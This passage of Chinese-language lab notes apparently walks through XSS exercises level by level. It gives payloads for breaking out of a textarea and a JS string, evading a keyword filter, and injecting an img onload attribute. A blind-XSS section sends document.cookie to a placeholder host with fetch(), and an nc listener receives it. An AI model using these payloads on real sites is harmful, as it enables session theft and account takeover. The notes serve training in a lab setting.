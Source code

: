     - 其中 `">` 是该payload关键。
  - 级别3
    ```JavaScript
      //html文档
      <textarea>123</textarea> 
      //payload，和级别2类似
      </textarea><script>alert('XSS');</script>
      //结果预览
      <textarea>123</textarea><script>alert('XSS');</script></textarea> 
    ```
  - 级别4
    ```JavaScript
      //html文档
      document.getElementsByClassName('name')[0].innerHTML='123';
      //payload
      ';alert('XSS');//
      //结果预览
      document.getElementsByClassName('name')[0].innerHTML='';alert('XSS');//;
    ```
  - 级别5
    ```JavaScript
      //后台过滤关键词'script'
      //payload
      <sscriptcript>alert('THM');</sscriptcript>
    ```
    - 绕过不聪明关键词过滤的技巧
      - `<sscriptcript>`
      - `....//`
      - `pphphp`

  - 级别6
    ```JavaScript
      //html文档
      <img src="scriptalert('THM');/script">
      //发现过滤了'<' '>',导致失败
      //使用 img 标签 onload属性 
      //payload
      /images/cat.jpg" onload="alert('THM');
      //结果预览
      <img src="/images/cat.jpg" onload="alert('THM');">
    ```
- Blind XSS实战
  - 一个网站有一个联系表单，可以通过表单向员工发送消息。
  - 后台不会检查表单内容是否有任何恶意代码，这使攻击者可以输入他们想要的任何内容。
  - 然后，这些消息会变成工单，员工可以在后台网站上查看这些工单。

  - paylaod
    - `</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>`
      - `fetch()` 生成 HTTP 访问
      - `btoa()` base64编码
      - `document.cookie` 当前cookie
  - 攻击者 `nc -lvnp port` 监听
